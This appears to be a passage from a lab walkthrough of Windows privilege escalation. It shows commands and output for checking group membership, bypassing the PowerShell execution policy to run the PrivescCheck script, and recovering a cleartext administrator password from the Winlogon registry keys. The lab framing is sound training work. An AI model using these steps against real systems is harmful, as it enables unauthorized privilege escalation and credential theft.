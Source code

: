 **Explanation:** The `net localgroup Administrators` command checks the members of the Administrators group. Only users in this group have full control over the system. Since the `student` user is not listed here, they do not have admin privileges.

_Navigate to the Desktop directory to explore its contents._

`cd ./Desktop`, `dir`:
```
    Directory: C:\Users\student\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/24/2020   5:35 AM                PrivescCheck ←
```

_Enter the 'PrivescCheck' directory and list its contents._

`cd ./PrivescCheck`, `dir`:
```
    Directory: C:\Users\student\Desktop\PrivescCheck

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        6/15/2021  11:32 AM                src
------        6/14/2021   9:38 AM           5112 Build.ps1
------        6/14/2021   9:38 AM           4812 CHANGELOG
------        6/14/2021   9:38 AM           3473 INFORMATION.md
------        6/14/2021   9:38 AM           1522 LICENSE
------        6/14/2021   9:38 AM         137714 PrivescCheck.ps1 ←
------        6/14/2021   9:38 AM         301684 PrivescCheckOld.ps1
------        6/14/2021   9:38 AM           3042 README.md
```

_Bypass the PowerShell execution policy and run the 'PrivescCheck.ps1' script to check for privilege escalation vulnerabilities._

`powershell -ep bypass -c ". ./PrivescCheck.ps1; Invoke-PrivescCheck"`:
```
+------+------------------------------------------------+------+
| TEST | USER > Identity                                | INFO |
+------+------------------------------------------------+------+
| DESC | Get the full name of the current user (domain +       |
|      | username) along with the associated Security          |
|      | Identifier (SID).                                     |
+------+-------------------------------------------------------+
[*] Found 1 result(s).

DisplayName           SID                                           Type
-----------           ---                                           ----
ATTACKDEFENSE\student S-1-5-21-3688751335-3073641799-161370460-1008 User

...

+------+------------------------------------------------+------+
| TEST | CREDS > WinLogon ←                             | VULN |
+------+------------------------------------------------+------+
| DESC | Parse the Winlogon registry keys and check whether    |
|      | they contain any clear-text password. Entries that    |
|      | have an empty password field are filtered out.        |
+------+-------------------------------------------------------+
[*] Found 1 result(s).

Domain   :
Username : administrator ←
Password : hello_123321 ←

...
```